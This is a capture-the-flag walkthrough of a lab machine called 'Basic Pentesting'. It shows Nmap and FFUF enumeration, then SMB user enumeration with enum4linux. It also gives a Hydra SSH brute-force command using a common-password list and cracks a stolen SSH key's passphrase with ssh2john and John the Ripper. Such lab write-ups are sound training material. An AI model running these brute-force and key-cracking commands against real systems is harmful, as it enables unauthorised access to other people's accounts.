



# Basic Pentesting

## Enumeration

Initial service enumeration was done using **Nmap**, revealing the following:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Using **FFUF**, the following directory was discovered:

```
development/
```

Inspecting this directory we found the following files that give clues on how to proceed:

<p align="center">
  
</p>

<p align="center">
  
</p>

Where we can see that somewhere weak credentials are used.

---

## Initial Access

To get initial access, we enumerate users through SMB using enum4linux:

```
enum4linux ip
```

<p align="center">
  
</p>

With this we discover two users: `jan` and `kay`.

We try to bruteforce `jan`'s SSH password with Hydra:

```
hydra -l jan -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt ssh://ip -V
```

And we successfully obtain his password, allowing SSH access.

---

## Privilege Escalation

To escalate privileges, we need to log in as `kay`. The method involves retrieving his `id_rsa` key and cracking its passphrase using `John the Ripper`.

First, extract the hash using ssh2john:

```
ssh2john id_rsa > id_rsa.hash
```

Then crack it with:

```
john id_rsa.hash --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

Once cracked, we can SSH as `kay` using:

```
ssh -i id_rsa kay@ip
```